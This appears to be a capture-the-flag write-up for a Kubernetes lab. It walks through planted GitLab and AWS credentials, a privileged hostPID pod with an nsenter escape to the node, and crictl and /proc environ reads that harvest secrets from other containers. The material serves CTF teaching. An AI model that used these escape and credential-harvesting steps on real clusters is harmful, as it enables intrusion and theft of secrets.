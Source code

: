 # Solution

## Part 1 - Pivot out of GitLab

- Access <gitlab.foobar.com>
  - Use credentials:
    - u: `root`
    - p: `Ikn0wwh@ty0ud1dl@5tKub3C0n3`
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi>
  - Review README
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commits/main>
  - Review the git commit messages
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commit/f0e9ad8ac74a428da5c2a4835a633a7bac6b1193>
  - Review for file that has been added by mistake

## Part 1 - Flag

- FLAG(IckyThumb)

## Part 2 - Get config from Bucket

- Use `aws` to copy file the `config` file from bucket

```sh
aws configure set aws_access_key_id "uUcDGYowgomWC8Z5"
aws configure set aws_secret_access_key "FLAG(IckyThumb)"
aws configure set default.region "us-east-1"
aws configure set default.output "json"
aws --endpoint-url=http://bucket.foobar.com:4566 s3 cp s3://foobar-creds/config ./config
```

> NOTE: if <bucket.foobar.com> hasn't been added to the `/etc/hosts` file, then use this:

```sh
aws --endpoint-url=http://localhost:4566 s3 cp s3://foobar-creds/config ./config
```

- Use the config file to connect to the cluster:

```sh
kubectl --kubeconfig=config auth can-i --list
```

## Part 3 - The Homer

Check what kind of pods do we already have at "the-homer" namespace:
```bash
kubectl get pods -n the-homer
NAME             READY   STATUS    RESTARTS   AGE
homer-pod        1/1     Running   0          61m
```

Check what the "homer-pod" actually looks like, what's doing:
```bash
kubectl get pods -n the-homer homer-pod -o yaml
```

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true, to be able to 
land on the node. 
```bash
apiVersion: v1
kind: Pod
metadata:
  name: homer-pod-privileged
  namespace: the-homer
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: homer-pod-privileged
    image: cgr.dev/chainguard/nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:

```bash
kubectl apply -f the-homer-priv.yaml
```

Exec into pod:

```bash
kubectl exec -it car-the-privileged-pod -- /bin/sh
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/#
```

Enter into all the namespaces:

```bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / #
```

## Part 3 - Optional flag

Find the flag:

```bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:

```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:

```bash
base64 -d /home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

## Part 4 - boombox

Let's check what other container we have in the node -- since we have access to all the resources.
```bash
gke-test-ctf1-default-pool-f53d5f46-193r / # crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
83bed131d1aa4       76c69feac34e8       7 minutes ago       Running             homer-pod-priv              0                   f05e5ab2c0374
5cbb847dd9147       751ae29343161       About an hour ago   Running             boombox                     0                   b4c9ed42aac3d
a7c59e682abec       63c5d601075ce       About an hour ago   Running             beep-beep                   0                   88908c85a6636
7a3591a7ace99       155251590ab59       About an hour ago   Running             homer-pod                   0                   2bbd5cf5873e7
```

Let's start with boombox, inspect it:
```bash
crictl inspect 5cbb847dd9147
```

We can see that it's a service, listening on 4000:
```bash
          "key": "NAPSTER_PORT_4000_TCP_PORT",
          "value": "4000"
        },
        {
          "key": "NAPSTER_PORT_4000_TCP_ADDR",
          "value": "10.72.7.227"
        },
```

Let's just get the PID:
```bash
  "info": {
    "sandboxID": "b4c9ed42aac3dc4d402f1a8018c11a61d6677d51b8af348649c233f6c0fc9bd7",
    "pid": 6905,
```

And check what's on the service port:
```bash
watch -n 1 curl 10.72.7.227:4000
```

Go to the container directory on the host, it's under /proc/<PID>
```bash
cd /proc/6905/
```

Check the environment variables:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r /proc/6905 # cat environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/ko-appHOSTNAME=boombox-85bdd7ff6f-v84zxSSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crtKO_DATA_PATH=/var/run/koKUBERNETES_PORT_443_TCP_PROTO=tcpNAPSTER_PORT_4000_TCP_PORT=4000NAPSTER_PORT_4000_TCP_ADDR=10.72.7.227NAPSTER_PORT_4000_TCP_PROTO=tcpKUBERNETES_PORT_443_TCP_PORT=443KUBERNETES_PORT_443_TCP_ADDR=10.72.0.1NAPSTER_SERVICE_HOST=10.72.7.227NAPSTER_PORT=tcp://10.72.7.227:4000KUBERNETES_PORT=tcp://10.72.0.1:443NAPSTER_PORT_4000_TCP=tcp://10.72.7.227:4000KUBERNETES_SERVICE_PORT=443KUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_PORT_443_TCP=tcp://10.72.0.1:443NAPSTER_SERVICE_PORT=4000KUBERNETES_SERVICE_HOST=10.72.0.1HOME=/home/nonroot
```

We can see that it's a go application built by ko, let's just go to the `/var/run/ko` directory:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r /proc/6905 # cd root/var/run/ko
```

And let's see what's in there:
```bash
ls -l
total 4
drwxr-xr-x 3 root root 4096 Oct 26 13:57 his
```

Get the flag:
```bash
cat his/palms/are/sweaty/knees/weak/arms/are/heavy/theres/vomit/on/his/sweater/already/moms/spagetti
FLAG=loseyourself
```

## Part 5 - BeepBeep

Let's inspect what beepbeep is doing. Get the containerID:
```bash
crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
83bed131d1aa4       76c69feac34e8       30 minutes ago      Running             homer-pod-priv              0                   f05e5ab2c0374
5cbb847dd9147       751ae29343161       About an hour ago   Running             boombox                     0                   b4c9ed42aac3d
a7c59e682abec       63c5d601075ce       About an hour ago   Running             beep-beep                   0                   88908c85a6636
```

and run:
```bash
crictl inspect a7c59e682abec
```

Check if there is any info related to logging:
```bash
      },
      "log_path": "beep-beep/0.log",
      ...
    ],
    "logPath": "/var/log/pods/intersection_beep-beep-722gl_417af059-0e56-4129-aa4c-607772f75356/beep-beep/0.log"
    ...
```

In another terminal check the logs from the container:
```bash
kubectl logs -f -n intersection beep-beep-722gl
🟢 - green
🟡 - yellow
🔴 - red
🟢 - green
🟡 - yellow
🔴 - red
🟢 - green
🟡 - yellow
```

Let's try to stop it:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r ~ # crictl stop 8bc9bef03b864
8bc9bef03b864
```

Observe the flag from the logs:
```bash
🟢 - green
🟡 - yellow
Signal received: terminated
[PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/ko-app HOSTNAME=beep-beep-722gl SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt KO_DATA_PATH=/var/run/ko KUBERNETES_PORT=tcp://10.72.0.1:443 KUBERNETES_PORT_443_TCP=tcp://10.72.0.1:443 KUBERNETES_PORT_443_TCP_PROTO=tcp KUBERNETES_PORT_443_TCP_PORT=443 KUBERNETES_PORT_443_TCP_ADDR=10.72.0.1 KUBERNETES_SERVICE_HOST=10.72.0.1 KUBERNETES_SERVICE_PORT=443 KUBERNETES_SERVICE_PORT_HTTPS=443 HOME=/home/nonroot]
AWS_ACCESS_KEY_ID=SOMETHINGSOMETHING
AWS_SECRET_ACCESS_KEY=FLAG(DodgeViper)
AWS_DEFAULT_REGION=🗽 - ⬆️  ⬇️  ➡️  ⬅️  - 🍔
exiting
```

